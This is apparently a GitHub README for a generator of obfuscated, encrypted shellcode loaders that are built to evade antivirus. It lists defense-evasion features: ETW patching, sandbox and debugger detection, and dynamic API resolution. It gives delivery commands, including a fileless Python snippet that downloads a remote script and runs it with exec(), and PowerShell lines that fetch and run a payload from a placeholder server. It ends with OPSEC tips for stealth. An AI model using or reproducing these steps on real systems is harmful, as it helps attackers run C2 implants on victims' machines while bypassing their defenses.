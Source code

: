 ### Invoke-Python-ShellCodeLoader.py
--------------------------------------
'Invoke-Python-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Python script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Python)
  - Shellcode encryption (XOR) and compression (Zlib)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Dynamic API resolution for the shellcode injection (via GetProcAddress and LoadLibraryA)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit, Sliver and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Python script) using a raw shellcode from your preferred C2 framework as input.
```
Example:
C:\path\python-3.10.4> python.exe .\Invoke-Python-ShellCodeLoader.py ".\raw-shellcode.bin" ".\obfuscated_shellcodeloader.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Python script) on a target Windows computer

  - Option A: Utilize a portable signed Python interpreter (www.python.org) + Fileless delivery of the obfuscated shellcode loader (Python script) 
```
1 - Download the Python embeddable package (www.python.org) which provides a signed (portable) Python interpreter with a good reputation.
    Example:
    PS C:\temp> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python.zip
    PS C:\temp> tar -xf .\python.zip

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Python.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://website/obfuscated_shellcodeloader.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python interpreter (www.python.org) + Download the obfuscated shellcode loader (Python script) locally before execution.
```
1 - Download the Python embeddable package (www.python.org) which provides a signed (portable) Python interpreter with a good reputation.
    Example:
    PS C:\temp> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python.zip
    PS C:\temp> tar -xf .\python.zip

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri http://X.X.X.X/obfuscated_shellcodeloader.py -OutFile C:\temp\python\obfuscated_shellcodeloader.py"
    C:\temp\python> python.exe .\obfuscated_shellcodeloader.py
```
  - Option C: Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer
```
1 - Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe)
    Example:
    --------
    C:\Users\auditor\Documents> pip install pyinstaller
    C:\Users\auditor\Documents>  python3 -m pip install --upgrade pip
    C:\Users\auditor\Documents\python\pyinstaller-test> python3 -m PyInstaller -F script.py -i "file.ico" --noconsole
    C:\Users\auditor\Documents\python\pyinstaller-test> dir dist
    09/04/2025  11:54 PM         5,612,531 script.exe

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    The obfuscation and encryption allow to evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://X.X.X.X/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
